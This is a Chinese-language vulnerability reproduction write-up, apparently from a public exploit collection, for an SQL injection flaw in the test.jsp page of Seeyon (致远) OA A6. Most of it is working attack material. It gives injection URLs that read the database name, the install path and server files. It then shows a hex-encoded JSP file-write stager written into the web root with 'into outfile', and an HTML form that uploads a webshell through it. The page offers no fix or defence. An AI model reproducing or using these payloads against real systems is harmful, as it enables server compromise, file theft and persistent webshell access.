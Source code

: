 ```yaml
---
title: 致远OA A6 test.jsp sql注入漏洞
id: zhfly3346
---
```


# 致远OA A6 test.jsp sql注入漏洞

## 一、漏洞简介

致远A6协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数SQL注入漏洞

## 二、漏洞影响

致远OA A6

## 三、复现过程

注入点为S1变量，通过探测，发现是mysql数据库

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1= 
```

于是构造注入语句查询数据库名：

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database()) 
```

![image](../img/b9c5e9eb57fe43726773b342ef04f0d7.png)

Mysql注入中，我们使用into outfile 来写入数据，用此方法注入webshell，前提条件两个：

*   1：root权限

*   2：物理路径

我们探测一下web根目录

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir) 
```

![image](../img/979d9525a5dd46643280e2634a8b9d54.png)

通过yyoa目录结构猜测物理路径为

```
F:/UFseeyon/OA/tomcat/webapps/yyoa/ 
```

可以使用load_file判断是否正确

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27) 
```

利用mysql into outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%> 
```

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27 
```

本地构造上传：

```
<html>
    <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
        <textarea name=t cols=120 rows=10 width=45>your code</testarea>
        <input type=submit value="提交">
    </form>
</html> 
```

上传后获取webshell地址为：http://www.0-sec.org/yyoa/we1come.jsp

## 参考链接

> https://www.pa55w0rd.online/yyoa/